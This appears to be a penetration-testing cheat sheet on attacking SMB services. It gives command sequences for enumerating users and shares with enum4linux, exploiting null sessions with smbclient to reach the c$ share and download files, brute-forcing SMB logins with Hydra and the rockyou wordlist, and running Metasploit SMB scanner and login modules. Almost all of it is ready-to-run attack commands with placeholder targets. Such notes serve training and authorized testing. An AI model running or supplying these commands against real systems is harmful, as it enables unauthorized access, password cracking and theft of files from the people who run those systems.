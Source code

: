 #### **Enum4Linux**

```bash
enum4linux -o <TARGET_IP>
enum4linux -U <TARGET_IP>
enum4linux -S <TARGET_IP>
enum4linux -G <TARGET_IP>
enum4linux -i <TARGET_IP>
enum4linux -r -u "<USER>" -p "<PW>" <TARGET_IP>
enum4linux -a -u "<USER>" -p "<PW>" <TARGET_IP>
enum4linux -U -M -S -P -G <TARGET_IP>

## NULL SESSIONS

# 1 - Use “enum4linux -n” to make sure if “<20>” exists:
enum4linux -n <TARGET_IP>
# 2 - If “<20>” exists, it means Null Session could be exploited. Utilize the following command to get more details:
enum4linux <TARGET_IP>
# 3 - If confirmed that Null Session exists, you can remotely list all share of the target:
smbclient -L WORKGROUP -I <TARGET_IP> -N -U ""
# 4 - You also can connect the remote server by applying the following command:
smbclient \\\\<TARGET_IP>\\c$ -N -U ""
# 5 - Download those files stored on the share drive:
smb: \> get file_shared.txt
```

#### **Hydra**

```bash
gzip -d /usr/share/wordlists/rockyou.txt.gz

hydra -l admin -P /usr/share/wordlists/rockyou.txt <TARGET_IP> smb
```

We can use a wordlist generator tools (how [Cewl](https://app.gitbook.com/s/iS3hadq7jVFgSa8k5wRA/practical-ethical-hacker-notes/tools/cewl)), to create custom wordlists.

#### **Metasploit**

```bash
# METASPLOIT Starting
msfconsole
msfconsole -q

# METASPLOIT SMB
use auxiliary/scanner/smb/smb_version
use auxiliary/scanner/smb/smb_enumusers
use auxiliary/scanner/smb/smb_enumshares
use auxiliary/scanner/smb/smb_login
use auxiliary/scanner/smb/pipe_auditor

## set options depends on the selected module
set PASS_FILE /usr/share/wordlists/metasploit/unix_passwords.txt
set SMBUser <USER>
set RHOSTS <TARGET_IP>
exploit
```
